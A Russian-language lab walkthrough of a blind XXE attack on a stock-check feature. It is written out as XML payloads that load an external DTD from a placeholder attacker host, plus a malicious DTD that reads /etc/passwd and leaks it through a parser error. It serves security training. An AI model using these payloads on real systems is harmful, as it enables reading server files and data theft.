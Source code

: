 Эта лаборатория имеет функцию «проверка запасов», которая анализирует вход XML, но не отображает результат.

Чтобы решить лабораторию, используйте внешний DTD, чтобы запустить сообщение об ошибке, которое отображает содержимое `/etc/passwd` файл.

Лаборатория содержит ссылку на сервер эксплойтов в другом домене, где вы можете размещать свой вредоносной DTD.

## Дано

Уязвимость в  функции «проверка запасов»
Уязвимость Blind

# Задачи вывести 

отобразить содержимое `/etc/passwd` 

# Решение 

Проверяем внешние dtd пингом
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
	%xxe; 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- Ответ
`"XML parser exited with error: org.xml.sax.SAXParseException; systemId: http://nneo4z15awsywa0dhn5cgm7kkbq2es2h.oastify.com; lineNumber: 1; columnNumber: 2; The markup declarations contained or pointed to by the document type declaration must be well-formed."`

- В burp collaborator получили пинг 

#### Микро итог
Мы получаем ошибку о работе сканера при этом сканер обрабатывает внешнюю дтд

Пробуем закинуть нагрузку на ошибку
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY % file SYSTEM "file:///etc/passwd"> 
	<!ENTITY % xxe SYSTEM "http://web-attacker.com/file;"> 
	%xxe; 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- Ответ в ошибке не увидели пробуем через эксплоит 

Формируем запрос на наш сервер
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://web-attacker.com;"> 
	%xxe; 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

Нагрузка на сервере
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>"> 
%eval; 
%error;
```
